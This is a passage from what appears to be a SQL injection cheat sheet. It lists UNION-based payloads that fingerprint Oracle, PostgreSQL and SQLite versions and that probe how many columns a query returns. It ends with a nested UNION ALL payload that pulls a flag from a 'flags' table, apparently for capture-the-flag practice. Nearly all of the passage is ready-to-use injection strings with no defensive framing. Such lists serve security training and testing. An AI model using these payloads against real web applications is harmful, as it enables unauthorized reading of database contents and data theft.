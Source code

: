 ```html
' UNION SELECT 'a' FROM dual--
' UNION SELECT 'a','b' FROM dual--
' UNION SELECT * FROM v$version--
' UNION SELECT BANNER,NULL FROM v$version--
```

### PostgreSQL

```html
' UNION SELECT version()--
' UNION SELECT NULL,version()--
```

### SQLite

```html
' UNION SELECT sqlite_version()--
' UNION SELECT sqlite_version(),NULL--
```

<br /><br />

## Detect Number of Columns

The following commands detect the number of the columns in the database.

```html
' UNION SELECT NULL--
' UNION SELECT NULL-- -

' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL-- -

' UNION SELECT NULL,NULL,NULL--
' UNION SELECT NULL,NULL,NULL-- -

' UNION SELECT 'a',NULL,NULL--
' UNION SELECT 'a',NULL,NULL-- -

' UNION SELECT NULL,'a',NULL--
' UNION SELECT NULL,'a',NULL-- -

' UNION SELECT NULL,NULL,'a'--
' UNION SELECT NULL,NULL,'a'-- -
```

### UNION ALL

We can combine the result of the query into the one column by using “UNION ALL” syntax.

```txt
' UNION ALL SELECT "' UNION SELECT flag,NULL,NULL from flags-- -",NULL,NULL from users-- -
```
